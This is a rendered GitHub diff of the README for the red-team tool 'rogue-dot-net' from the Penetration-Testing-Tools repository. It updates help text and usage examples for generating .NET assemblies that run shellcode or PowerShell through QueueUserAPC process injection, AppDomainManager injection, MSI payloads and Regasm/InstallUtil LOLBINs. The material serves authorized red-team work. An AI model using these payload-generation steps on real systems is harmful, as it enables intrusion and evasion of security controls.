

Before and after one commit to mgeeky/Penetration-Testing-Tools, a Markdown page: red-teaming/rogue-dot-net/README.md, the part around one of its changes. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Updated rogue-dot-net

````diff
--- a/red-teaming/rogue-dot-net/README.md
+++ b/red-teaming/rogue-dot-net/README.md
@@ -32,38 +41,61 @@ positional arguments:
 
-optional arguments:
-  -h, --help  show this help message and exit
-  -e, --exe   Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
-  -r, --raw   Specified input file is a raw Shellcode to be injected in self process in a separate Thread.
-```
+options:
+  -h, --help            show this help message and exit
+  -t {regasm,plain,exec,run-command}, --type {regasm,plain,exec,run-command}
+                        Specifies type of payload to generate. "plain" - assembly with embedded shellcode/ps1/exe, "exec" - assembly that hardcodes supplied shell command in "inputFile|cmdline" parameter and then runs it, "run-command" exposes a method named --method which takes one string parameter being a command to run, "regasm" - produces
+                        executable compatible with Regasm/Regsvcs/InstallUtil code execution primitives. Default: plain
+  -c {default,x86,x64}, --compile {default,x86,x64}
+                        Compile the source code using x86 or x64 csc.exe and generate output EXE/DLL file depending on --output extension. Default: default - CPU independent executable will be produced.
+  -o PATH, --output PATH
+                        Output path where to write produced assembly/C# code. Default: print resulting C# code to stdout
+  -s NAME, --namespace NAME
+                        Specifies custom C# module namespace for the generated Task (for needs of shellcode loaders such as DotNetToJScript or Donut). Default: ProgramNamespace.
+  -n NAME, --module NAME
+                        Specifies custom C# module name for the generated Task (for needs of shellcode loaders such as DotNetToJScript or Donut). Default: Program.
+  -m NAME, --method NAME
+                        Specifies method name that could be used by DotNetToJS and alike deserialization techniques to invoke our shellcode. Default: Foo
+  -e, --exe             Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
+  -r, --raw             (OBSOLETED) Specified input file is a raw Shellcode to be injected in self process in a separate Thread (VirtualAlloc + CreateThread)
+  -M, --msi-mode        Compiled .NET assembly is to be used with MSI installer
+  -A, --appdomainmanager-mode
+                        Defines additional public sealed class inheriting from AppDomainManager with name: "MyAppDomainManager". Useful for side-loading .NET applications through the AppDomainManager Injection attack (google up: TheWover/GhostLoader)
+  -C PARAMS, --extra-params PARAMS
+                        Additional parameters to add to CSC compiler
+  --dotnet-ver {v2,v4,2,4}
+                        Use specific .NET version for compilation (with --compile given). Default: v2
+  --queue-apc           If --raw was specified, generate C# code template with CreateProcess + WriteProcessMemory + QueueUserAPC process injection technique instead of default CreateThread.
+  --target-process PATH
+                        This option specifies target process path for remote process injection in --queue-apc technique. May use environment variables. May also contain command line for spawned process, example: --target-process "%windir%\system32\werfault.exe -l -u 1234"
 
-Sample use case:
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
+USE CASES:
 
-```
-python3 generateRogueDotNet.py -r notepad64.bin > program.cs
+1) Generate .NET EXE assembly that injects shellcode into remote process and runs via QueueUserAPC:
+    cmd> py generateRogueDotNet.py calc64.bin -o evil.exe --queue-apc
 
-        :: Rogue .NET Source Code Generation Utility
-        To be used during Red-Team assignments to launch Powershell/Shellcode payloads via Regsvcs/Regasm/InstallUtil.
-        Mariusz Banach / mgeeky, <mb@binary-offensive.com>
+2) Generate .NET DLL assembly that executes shellcode inline/in-process
+    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll
 
-[?] File specified as raw Shellcode.
+3) Generate .NET v4 DLL assembly that executes shellcode in-process and will be used for building evil MSI:
+    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll --dotnet-ver v4 -M
 
+4) Run Powershell through a managed runspace:
+    cmd> py generateRogueDotNet.py evil.ps1 -o evil.exe --dotnet-ver v4
+
+5) Generate .NET DLL assembly that runs shellcode and can be loaded with Regasm/Regsvcs/InstallUtil LOLBINs:
+    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll -t regasm
+
+5) Generate .NET assembly that executes hardcoded system command (calc.exe):
+    cmd> py generateRogueDotNet.py -o evil.dll -t exec calc.exe
+
+6) Generate .NET v4 DLL assembly that executes shellcode in-process and will be used for AppDomainManager injection (aka TheWover/GhostLoader):
+    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll --dotnet-ver v4 -A
+
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 ```
 
 
-###  Step 3: Compilate library .NET Assembly
-
-```
-%WINDIR%\Microsoft.NET\Framework\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /target:library /out:rogue.dll /keyfile:key.snk program.cs
-```
-
-If you passed Powershell code to be launched in a .NET Runspace, then an additional assembly will have to be used to compile resulting source code properly - meaning System.Management.Automation.dll (provided with this script). Then proper compilation command will be:
-
-```
-%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.Management.Automation.dll /target:library /out:rogue.dll /keyfile:key.snk program.cs
-```
-
-
-### Step 4: Code execution via Regsvcs, Regasm or InstallUtil:
+### Regsvcs, Regasm or InstallUtil execution:
 
 - x86:
 ```
````
Also changed, not shown: other parts of red-teaming/rogue-dot-net/README.md (+25 -16 lines).
